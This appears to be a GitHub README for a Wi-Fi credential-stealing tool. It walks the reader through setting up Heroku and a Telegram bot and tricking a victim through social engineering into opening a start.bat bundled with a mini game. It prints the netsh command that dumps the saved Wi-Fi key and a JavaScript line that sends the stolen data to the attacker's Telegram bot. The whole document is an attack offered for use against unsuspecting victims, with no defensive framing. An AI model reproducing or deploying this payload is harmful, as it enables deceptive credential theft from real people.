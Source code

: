 # parrot Wi-Fi hacking tool
this is a simple payload that sends the password of a known wifi  to rouge sever.
# requirements
node.js https://nodejs.org/en/download/  
heroku account https://signup.heroku.com/  
heroku cli https://devcenter.heroku.com/articles/heroku-cli#download-and-install  
A telegram bot https://t.me/BotFather
# usage
```shell
git clone https://github.com/ba5liel/parrot.git  
cd parrot  
heroku login  
git push -u heroku 
```
Insert the aproprate params
```js
https.get(`https://api.telegram.org/bot{{Your bot token}}/sendMessage?chat_id={{your telegram id}}&text=${body}`);
```
send the Game-monkey-lander.zip to victim using any social engineering techniques. and make sure the victim opens the start.bat file  
now you can see the password at [yourapp].heroku.com or it's sent to your telegram account through the bot you setted up using @BotFather
# payload
this include a mini game that launches when start.bat is opened.  
you must change the start.bat in the payload    

```shell
netsh wlan show profile router1 key=clear | findstr "Key Content" > bin\log.txt
```

#enjoy
